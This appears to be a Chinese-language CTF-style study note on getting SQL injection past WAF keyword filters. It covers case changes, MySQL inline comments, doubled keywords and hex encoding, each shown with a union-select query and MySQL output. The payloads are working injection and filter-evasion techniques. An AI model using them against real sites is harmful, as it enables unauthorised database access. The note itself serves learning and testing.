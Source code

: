
# 大小写绕过

常用于 `waf`的正则对大小写不敏感的情况，一般都是题目自己故意这样设计。
例如：waf过滤了关键字`select`，可以尝试使用`Select`等绕过。

```sql
mysql> select * from users where id = -1 union select 1,2,3
    -> ;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | 2        | 3        |
+----+----------+----------+
1 row in set (0.00 sec)

#大小写绕过
mysql> select * from users where id = -1 union Select 1,2,3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | 2        | 3        |
+----+----------+----------+
```

# 内联注释绕过

内联注释就是把一些特有的仅在MYSQL上的语句放在 `/*!...*/` 中，这样这些语句如果在其它数据库中是不会被执行，但在MYSQL中会执行。

```sql
mysql> select * from users where id = -1 union /*!select*/ 1,2,3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | 2        | 3        |
+----+----------+----------+
```

# 双写关键字绕过

在某一些简单的`waf`中，将关键字`select`等只使用`replace()`函数置换为空，这时候可以使用双写关键字绕过。例如`select`变成`seleselectct`，在经过`waf`的处理之后又变成`select`，达到绕过的要求。

# 特殊编码绕过

- 十六进制绕过

```sql
mysql> select * from users where username = 0x7465737431;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | test1    | pass     |
+----+----------+----------+
```
